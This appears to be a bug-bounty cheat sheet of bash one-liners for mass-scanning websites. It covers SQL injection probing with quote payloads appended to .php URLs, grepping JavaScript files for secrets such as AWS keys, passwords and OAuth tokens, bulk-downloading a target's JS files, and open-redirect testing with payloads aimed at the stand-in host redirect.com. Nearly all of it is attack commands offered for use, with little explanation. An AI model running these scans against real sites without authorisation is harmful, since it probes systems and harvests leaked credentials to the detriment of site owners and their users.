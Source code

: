 # SQL Injection:

cat sql | grep ".php" | sed 's/.php.*/.php/' | sort -u | sed 's|$|%27%22%60|' | while read url ; do curl --silent "$url" | grep -qs "You have an error in your SQL syntax" && echo -e "$url \e[1;32mVulnerable\e[0m" || echo -e "$url \e[1;31mNot Vulnerable\e[0m" ; done

 
 cat urls.txt | grep ".php" | sed 's/\.php.*/.php\//' | sort -u | sed s/$/%27%22%60/ | httpx -silent -ms "You have an error in your SQL syntax"

## Sensitive information disclosure throgh JS files:

cat *js | grep -r -E "aws_access_key|aws_secret_key|api key|passwd|pwd|heroku|slack|firebase|swagger|aws_secret_key|aws key|password|ftp password|jdbc|db|sql|secret jet|config|admin|pwd|json|gcp|htaccess|.env|ssh key|.git|access key|secret token|oauth_token|oauth_token_secret" /path/to/directory/*.js


## Extract urls from JS files:

grep -r -oP --no-filename "(?<=('|\`|\"))(http[s]?:\/\/[a-zA-Z0-9_?&=\/\-#.]*?)(?=('|\`|\"))" *.js | sort -u


## Download js files from whole js.txt files:

#!/bin/bash

while IFS= read -r url; do
    echo "Downloading: $url"
    wget "$url" -P  /home/vijay/Desktop/Bug_Bounty/nasa/JS
done < alivejs.txt

## On Live Domains List (File containing Live Domains)


cat sub.txt | rush -j40 'if curl -Iks -m 10 "{}/https://redirect.com" | grep -E "^(Location|location)\\:(| *| (http|https)\\:\\/\\/| *\\/\\/| [a-zA-Z]*\\.| (http|https)\\:\\/\\/[a-zA-Z]*\\.)redirect\\.com" || curl -Iks -m 10 "{}/redirect.com" | grep -E "^(Location|location)\\:(| *| (http|https)\\:\\/\\/| *\\/\\/| [a-zA-Z]*\\.| (http|https)\\:\\/\\/[a-zA-Z]*\\.)redirect\\.com" || curl -Iks -m 10 "{}////;@redirect.com" | grep -E "^(Location|location)\\:(| *| (http|https)\\:\\/\\/| *\\/\\/| [a-zA-Z]*\\.| (http|https)\\:\\/\\/[a-zA-Z]*\\.)redirect\\.com" || curl -Iks -m 10 "{}/////redirect.com" | grep -E "^(Location|location)\\:(| *| (http|https)\\:\\/\\/| *\\/\\/| [a-zA-Z]*\\.| (http|https)\\:\\/\\/[a-zA-Z]*\\.)redirect\\.com"; then echo "{} It seems an Open Redirect Found"; fi'

## On Parameters (File containing urls with parameters)


cat redirect.txt | qsreplace "https://redirect.com" | rush -j40 'if curl -Iks -m 10 "{}" | grep -E "^(Location|location)\\:(| *| (http|https)\\:\\/\\/| *\\/\\/| [a-zA-Z]*\\.| (http|https)\\:\\/\\/[a-zA-Z]*\\.)redirect\\.com"; then echo "Open Redirect found on {}"; fi'

# Test Case 2

cat redirect.txt | qsreplace "redirect.com" | rush -j40 'if curl -Iks -m 10 "{}" | grep -E "^(Location|location)\\:(| *| (http|https)\\:\\/\\/| *\\/\\/| [a-zA-Z]*\\.| (http|https)\\:\\/\\/[a-zA-Z]*\\.)redirect\\.com"; then echo "Open Redirect found on {}"; fi'

# Test Case 3

cat redirect.txt | qsreplace "////;@redirect.com" | rush -j40 'if curl -Iks -m 10 "{}" | grep -E "^(Location|location)\\:(| *| (http|https)\\:\\/\\/| *\\/\\/| [a-zA-Z]*\\.| (http|https)\\:\\/\\/[a-zA-Z]*\\.)redirect\\.com"; then echo "Open Redirect found on {}"; fi'

# Test Case 4

cat redirect.txt | qsreplace "/////redirect.com" | rush -j40 'if curl -Iks -m 10 "{}" | grep -E "^(Location|location)\\:(| *| (http|https)\\:\\/\\/| *\\/\\/| [a-zA-Z]*\\.| (http|https)\\:\\/\\/[a-zA-Z]*\\.)redirect\\.com"; then echo "Open Redirect found on {}"; fi'

cat js.txt | while read line; do curl $line -s -k; done | grep -oh "\"\/[a-zA-Z0-9_/?=&]*\"" | sed -e 's/^"//' -e 's/"$//' | sort -u


